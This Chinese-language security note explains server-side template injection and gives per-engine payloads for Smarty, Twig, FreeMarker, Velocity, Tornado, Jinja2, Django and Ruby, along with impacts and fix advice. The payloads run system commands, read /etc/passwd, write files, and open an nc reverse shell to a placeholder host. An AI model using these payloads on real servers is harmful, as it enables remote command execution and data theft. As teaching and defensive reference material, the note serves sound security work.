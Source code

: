 # SSTI

## 0x01 漏洞描述

模板引擎可以让（网站）程序实现界面与数据分离，业务代码与逻辑代码的分离，这大大提升了开发效率，良好的设计也使得代码重用变得更加容易。上下文数据通常由用户控制并由模板进行格式化，以生成网页、电子邮件等。模板引擎通过使用代码构造（如条件语句、循环等）处理上下文数据，允许在模板中使用强大的语言表达式，以呈现动态内容。

SSTI （服务器端模板注入）如果攻击者能够控制要呈现的模板，服务端接收了用户的恶意输入以后，未经任何处理就将其作为 Web 应用模板内容的一部分，模板引擎在进行目标编译渲染的过程中，执行了用户插入的可以破坏模板的语句，就可能导致上下文数据的暴露，甚至在服务器上运行任意命令的表达式。

## 0x02 常见应用场景

凡是使用模板的应用程序都有可能出现服务器端模版注入漏洞。

### 2.1 PHP

* Smarty

```
{php}echo `id`;{/php}
{self::getStreamVariable("file:///etc/passwd")}
```

* Twig

```
{{7*7}}
{{_self.env.registerUndefinedFilterCallback("exec")}}
{{_self.env.getFilter("id")}}
```

### 2.2 Java

* FreeMarker

```
<#assign ex = "freemarker.template.utility.Execute"?new()>${ ex("id")}
[#assign ex = 'freemarker.template.utility.Execute'?new()]${ ex('id')}
${"freemarker.template.utility.Execute"?new()("id")}
```

* Velocity

```
#set($str=$class.inspect("java.lang.String").type)
#set($chr=$class.inspect("java.lang.Character").type)
#set($ex=$class.inspect("java.lang.Runtime").type.getRuntime().exec("whoami"))
$ex.waitFor()
#set($out=$ex.getInputStream())
#foreach($i in [1..$out.available()])
$str.valueOf($chr.toChars($out.read()))
#end
```

### 2.3 Python

- Tornado

```
{{handler.settings}}
{% import os %}{{ os.popen("whoami").read() }}
```

- Flask/Jinja2

```
{{ config.items() }}
{{''.__class__.__mro__[-1].__subclasses__()}}
{{ ''.__class__.__mro__[2].__subclasses__()[40]('/etc/passwd').read() }}
```

- Django

```
//写文件
{{ ''.__class__.__mro__[2].__subclasses__()[40]('/tmp/evil', 'w').write('from os import system%0aSHELL = system') }}
//加载system
{{ config.from_pyfile('/tmp/evil') }}
//执行命令反弹SHELL
{{ config['SHELL']('nc xxxx xx -e /bin/sh') }}
```

### 2.4 Ruby

```
<%= 7 * 7 %>
<%= File.open('/etc/passwd').read %>
```

#### 2.5 AngularJS

```
$eval('1+1')
```

## 0x03 漏洞危害

* 获取上下文敏感数据信息、配置信息；
* 读取、写入恶意文档到服务器中；
* 执行系统命令；

## 0x04 修复建议

* 不要让用户对传入模板的内容或者模板本身进行控制。
* 减少或者放弃直接使用格式化字符串结合字符串拼接的模板渲染方式。
* 如果需要将动态数据传递给模板，不要直接在模板文件中执行，可以使用模板引擎的内置功能来扩展表达式，实现同样的效果。